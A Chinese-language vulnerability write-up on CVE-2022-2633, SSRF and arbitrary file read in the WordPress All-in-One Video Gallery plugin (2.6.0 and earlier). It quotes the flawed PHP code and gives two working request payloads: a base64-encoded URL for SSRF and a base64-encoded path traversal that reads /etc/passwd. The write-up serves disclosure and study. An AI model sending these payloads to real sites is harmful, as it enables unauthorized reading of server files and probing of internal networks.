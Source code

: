 # WordPress All-in-One Video Gallery video.php 任意文件读取漏洞 CVE-2022-2633

## 漏洞描述

WordPress All-in-One Video 插件 Gallery video.php文件中存在SSRF以及任意文件读取漏洞，攻击者通过发送特定的请求包读取任意文件

## 漏洞影响

<a-checkbox checked>WordPress All-in-One Video Gallery  <= 2.6.0</a-checkbox></br>

## 插件名

<a-checkbox checked>All-in-One Video Gallery</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip</a-checkbox></br>

## 漏洞复现

对比漏洞修复的文件找到出现漏洞的文件 wp-content/plugins/all-in-one-video-gallery/public/video.php

![img](../../../.vuepress/public/img/1665396901441-051cdcb4-9932-48f7-96f7-b57aa55b37b0.png)

这里接收 dl 参数，dl 参数不为 数字类型时，参数将 base64 解码传入

```sql
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![img](../../../.vuepress/public/img/1665398476539-d7b73586-47fb-49ac-aefc-75518d40abf3.png)

当传入的参数中不存在 http:// 或 https:// 时，参数 $formatted_path 的值改变

![img](../../../.vuepress/public/img/1665400025228-ec8b2210-1683-4f95-b05d-085338323586.png)

当 $formatted_path 为 url 时存在 SSRF漏洞，传入 base64编码 的目标URL就可以得到回显

```sql
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![img](../../../.vuepress/public/img/1665400131718-e35e3a69-9fef-4717-b22c-25e07f659dac.png)

看向代码最后的片段，则存在任意文件读取漏洞

![img](../../../.vuepress/public/img/1665400190046-5f6608e0-f8d6-4291-ba23-9d468a95ac46.png)

```sql
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![img](../../../.vuepress/public/img/1665400254761-b7c390f4-6412-4104-a806-856aabf21e98.png)